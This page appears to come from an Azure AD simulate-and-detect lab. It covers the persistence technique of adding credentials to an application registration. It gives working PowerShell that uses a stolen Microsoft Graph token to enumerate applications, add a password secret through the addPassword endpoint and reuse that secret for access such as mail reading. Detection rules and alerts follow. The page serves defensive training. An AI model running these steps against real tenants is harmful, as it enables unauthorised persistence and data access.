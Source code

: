 # Add Credentials to Application

Once a threat actor identifies an application of interest to authenticate to, credentials can be added to it. This allows the adversary to use custom credentials and maintain persistence.

Based on [Microsoft documentation](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow), like a user, during the authentication flows we're focused on, an application must present credentials. 

This authentication consists of two elements:
* An Application ID, sometimes referred to as a Client ID. A GUID that uniquely identifies the app's registration in your Active Directory tenant.
* A secret associated with the application ID. You can either generate a client secret string (similar to a password) or specify an X509 certificate (which uses its public key).

[An application object is the global representation of an application for use across all tenants, and the service principal is the local representation for use in a specific tenant](https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals). A service principal must be created in each tenant where the application is used, enabling it to establish an identity for sign-in and/or access to resources being secured by the tenant.

## Simulate & Detect
1.	[Enumerate existing applications](#enumerate-existing-azure-ad-applications) 
2.	[Add credentials to application](#add-credentials-to-application)
    * [Detect credentials added to an application](#detect-credentials-added-to-an-application)

## Preconditions
* Authorization
    * Identity solution: Azure AD
    * Access control model: Discretionary Access Control (DAC)
    * Service: Azure Microsoft Graph
    * Permission Type: Delegated
    * Permissions: Application.ReadWrite.All
* Endpoint: ADFS01
    * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [got a Microsoft Graph access token](getAccessTokenSAMLBearerAssertionFlow.md) to go through the simulation steps.
    * Microsoft Graph Access Token
        * Use the output from the previous step as the variable `$MSGraphAccessToken` for the simulation steps. Make sure the access token is from the `Azure Active Directory PowerShell Application`. That application has the right permissions to execute all the simulation steps.

## Enumerate Existing Azure AD Applications

```PowerShell
$headers = @{"Authorization" = "Bearer $MSGraphAccessToken"}
$params = @{
    "Method"  = "Get"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications"
    "Headers" = $headers
}
$applications = Invoke-RestMethod @params
$applications

$appObjectId = $applications.value[0].id
$appObjectId
```

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_03_app_object_id.png)

## Add Credentials to Application

### Adding Credentials (Password) to an Application

```PowerShell
$pwdCredentialName = 'SimuLand2021'
$headers = @{
    "Content-Type"  = "application/json"
    "Authorization" = "Bearer $MSGraphAccessToken"
}
$body = @{
    passwordCredential = @{ displayName = "$($pwdCredentialName)" }
}
$params = @{
    "Method"  = "Post"
    "Uri"     = "https://graph.microsoft.com/v1.0/applications/$appObjectId/addPassword"
    "Body"    = $body | ConvertTo-Json –Compress
    "Headers" = $headers
}
$credentials = Invoke-RestMethod @params
$credentials
$secret = $credentials.secretText
$secret
```
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_04_app_new_secret.png)

Browse to [Azure Portal](https://portal.azure.com/) and go to Azure AD > App Registrations > `MyApplication` > `Certificates & secrets` to verify the task.

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_05_app_new_secret.png)

## Detect Credentials Added to an Application

### Azure Sentinel Detection Rules

* [New access credential added to Application or Service Principal](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/NewAppOrServicePrincipalCredential.yaml)
* [First access credential added to Application or Service Principal where no credential was present](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/AuditLogs/FirstAppOrServicePrincipalCredential.yaml)

### Microsoft 365 Hunting Queries

* [Credentials were added to an Azure AD application after 'Admin Consent' permissions granted [Nobelium]](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/773ebb498e0aa897678be98c34ffa56359bf29d9/Persistence/CredentialsAddAfterAdminConsentedToApp%5BNobelium%5D.md)

### Azure AD Workbook: `Sensitive Operations Report`
1.	Browse to [Azure Portal](https://portal.azure.com/)
2.	Azure AD > `Workbooks` > `Sensitive Operations Report`

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_06_workbook.png)

### Microsoft Cloud App Security
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on `Microsoft Cloud App Security`.
3.	`Alerts`
 
![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_07_mcas_alert.png)

![](../../resources/images/simulate_detect/persistence/addCredentialsToApplication/2021-05-19_08_mcas_alert.png)

## Output

Use the variable `$secret` that contains the credentials object to authenticate to the compromised application. For example, if the application has permissions to read mail, you can authenticate to the application and use it to do so.

* [Mail access with delegated permissions](../collection/mailAccessDelegatedPermissions.md)

# References
* [OAuth 2.0 client credentials flow on the Microsoft identity platform | Microsoft Docs](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-client-creds-grant-flow)
* [Use an app identity to access resources - Azure Stack Hub | Microsoft Docs](https://docs.microsoft.com/en-us/azure-stack/operator/azure-stack-create-service-principals?view=azs-2008&tabs=az1%2Caz2&pivots=state-disconnected)
